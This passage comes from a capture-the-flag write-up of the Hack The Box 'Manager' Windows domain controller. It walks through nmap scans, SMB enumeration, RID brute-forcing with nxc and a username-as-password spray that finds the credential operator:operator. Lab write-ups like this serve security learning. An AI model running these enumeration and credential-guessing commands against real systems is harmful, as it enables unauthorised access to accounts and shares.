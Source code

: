 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/fde8cd9d-8c69-4862-8961-381a29b7b13b)

## First we run nmap full port scan to know whhat ports are open in the target 
`nmap -p- --min-rate 1000 -oN full.nmap -v -Pn <IP>`

```shell
# Nmap 7.94SVN scan initiated Wed Feb 21 12:26:46 2024 as: nmap -p- --min-rate 1000 -oN full.nmap -v -Pn 10.129.22.154
Increasing send delay for 10.129.22.154 from 0 to 5 due to 11 out of 31 dropped probes since last increase.
Increasing send delay for 10.129.22.154 from 5 to 10 due to 11 out of 13 dropped probes since last increase.
Increasing send delay for 10.129.22.154 from 10 to 20 due to 11 out of 15 dropped probes since last increase.
Increasing send delay for 10.129.22.154 from 20 to 40 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.129.22.154
Host is up (0.15s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49693/tcp open  unknown
49694/tcp open  unknown
49695/tcp open  unknown
49705/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Feb 21 12:30:14 2024 -- 1 IP address (1 host up) scanned in 208.18 seconds
```
now we know what ports are open, let's run default nmap scripts to know what services are running on these ports.

## nmap service scan 

```shell
# Nmap 7.94SVN scan initiated Wed Feb 21 12:43:23 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 53,80,88,135,139,445,464,593,3268,3269,5985,9389 -Pn 10.129.22.154
Nmap scan report for manager.htb (10.129.22.154)
Host is up (0.16s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-21 18:46:59Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-02-21T18:48:22+00:00; +7h03m30s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2024-02-21T18:48:23+00:00; +7h03m30s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-21T18:47:44
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h03m29s, deviation: 0s, median: 7h03m29s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 21 12:44:53 2024 -- 1 IP address (1 host up) scanned in 90.40 seconds
```
now we know what services are open on the target 


## Enumerating SMB
```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Manager]
└─$ smbclient -L //manager.htb/ -N          

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to manager.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
checking for shares available anonymously on smb server, got nothing. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/819c307b-fca2-4107-9213-daba2b372fa7)

```shell
sudo nxc smb 10.129.22.154 -u anonymous -p '' --rid-brute
```

using nexec to bruteforce rid of users, we got some users in the domain. 

```
zhong 
cheng 
ryan 
raven 
jinWoo 
chinHae 
operator 
```
we made a userlist with the usernames. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5f9f241f-8cb6-4f2a-9cc7-a4b397d4dbe2)

```shell
sudo nxc smb 10.129.22.154 -u users.txt -p users.txt
```
bruteforcing smb using the users gotten with the same users as password to see if we got a weak cred. we can see we have smb access as user `operator:operator`.

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/Manager]
└─$ sudo nxc smb 10.129.22.154 -u operator -p operator --shares 
SMB         10.129.22.154   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.22.154   445    DC01             [+] manager.htb\operator:operator 
SMB         10.129.22.154   445    DC01             [*] Enumerated shares
SMB         10.129.22.154   445    DC01             Share           Permissions     Remark
SMB         10.129.22.154   445    DC01             -----           -----------     ------
SMB         10.129.22.154   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.22.154   445    DC01             C$                              Default share
SMB         10.129.22.154   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.22.154   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.22.154   445    DC01             SYSVOL          READ            Logon server share
```
enumerating smb using the creds we got, we can see we have read access to shares `NETVOL` & `SYSVOL`. let's check em out.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/8c5754b5-1b5f-4143-b5db-8dfd93e5c059)

checking the `NETLOGON` share was empty, we got a dir in the `SYSVOL` share. proceded to download everything in it. 

